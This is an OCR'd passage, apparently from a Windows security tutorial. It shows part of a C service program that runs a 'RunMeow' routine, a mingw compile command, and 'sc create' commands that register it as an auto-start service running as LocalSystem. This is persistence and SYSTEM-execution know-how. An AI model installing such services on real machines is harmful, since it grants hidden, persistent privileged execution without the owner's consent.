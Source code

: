 ```c 
  RunMeow();

  serviceStatus.dwCurrentState = SERVICE_RUNNING;
  SetServiceStatus (hStatus, &serviceStatus);

  while (serviceStatus.dwCurrentState == SERVICE_RUNNING) {
    Sleep(SLEEP_TIME);
  }
  return;
}

void ControlHandler(DWORD request) {
  switch(request) {
    case SERVICE_CONTROL_STOP:
      serviceStatus.dwWin32ExitCode = 0;
      serviceStatus.dwCurrentState  = SERVICE_STOPPED;
      SetServiceStatus (hStatus, &serviceStatus);
      return;

    case SERVICE_CONTROL_SHUTDOWN:
      serviceStatus.dwWin32ExitCode = 0;
      serviceStatus.dwCurrentState  = SERVICE_STOPPED;
      SetServiceStatus (hStatus, &serviceStatus);
      return;

    default:
      break;
  }
  SetServiceStatus(hStatus,  &serviceStatus);
  return;
}
```

We can compile it with :

```bash 
x86_64-w64-mingw32-g++ -O2 meowsrv.c -o meowsrv.exe -I/usr/share/
mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-
strings -fno-exceptions -fmerge-all-constants -static-libstdc++
-static-libgcc -fpermissive
```

On windows machine we can do :

```powershell
sc create MeowService binpath= "Z:\PATH_TO_YOUR_EXE\meowsrv.exe" start= auto
sc query MeowService
```

With that it would be created with token of system that comprises the SIDs of  `AUTHORITY\SYSTEM` and `BUILTIN\Administrators`. These SIDs grant privileged access to a majority of system objects.

The account name used universally across all locales is .\LocalSystem.
